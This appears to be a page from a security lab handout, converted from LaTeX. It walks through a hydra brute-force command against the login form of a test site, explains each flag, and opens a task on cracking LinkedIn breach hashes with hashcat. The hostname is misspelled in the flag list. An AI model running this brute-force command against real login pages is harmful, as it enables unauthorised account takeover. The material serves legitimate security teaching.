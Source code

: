 \documentclass{article}
\begin{document}
\subsection{Run the attack}
Alright, now that we got all arguments, we are ready to fire up hydra. Here is the command pattern:
\begin{lstlisting}
  hydra -l <username> -P <password list> <Target hostname>
  <service module>  <post request parameters>[/code]
\end{lstlisting}
Based on information we have gathered, our command should look something like this:
\begin{lstlisting}
  hydra -l admin -P /usr/share/wordlists/rockyou.txt
  testasp.vulnweb.com http-post-form
  "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=
  ^USER^&tfUPass=^PASS^:S=logout" -vV -f
\end{lstlisting}
Let’s break down the commands:
\begin{itemize}
  \item \textbf{-l $<$username$>$:} user name (not hard to guess), use -L $<$FILE$>$ for a list of possible user names from a file.
  \item \textbf{-P $<$FILE$>$:} file with passwords, use -p $<$password$>$ to literally use one password instead of guessing it.
  \item \textbf{testapp.vunlwebapp.com:} is a hostname or target.
  \item \textbf{http-post-form:} is the service module we use.
  \item \textbf{/Login.asp?...} This is  \{page URL\}:\{Request post body form parameters\}:S=\{Find whatever on the page after succesfully logged in\}.
   \item \textbf{v:} Verbose mode.
   \item \textbf{V:} Show \textit{login:pass} for each attempt.
   \item \textbf{f:} Terminate program if pair \textit{login:password} is found.
\end{itemize}
Now just run the command and watch the terminal output.

\section{Task 2: Cracking LinkedIn Hashes Using Hashcat}
In this section, you'll see how many hashes you can recover from the 2016 LinkedIn password breach. The LinkedIn hacker, a Russian, was sentenced in US court to seven years in jail on September 29, 2020. This breach of 177,500,189 unsalted SHA1 password hashes represents the data of all LinkedIn users as of 2012. Among these passwords, only 61,829,207 are unique.
\end{document}
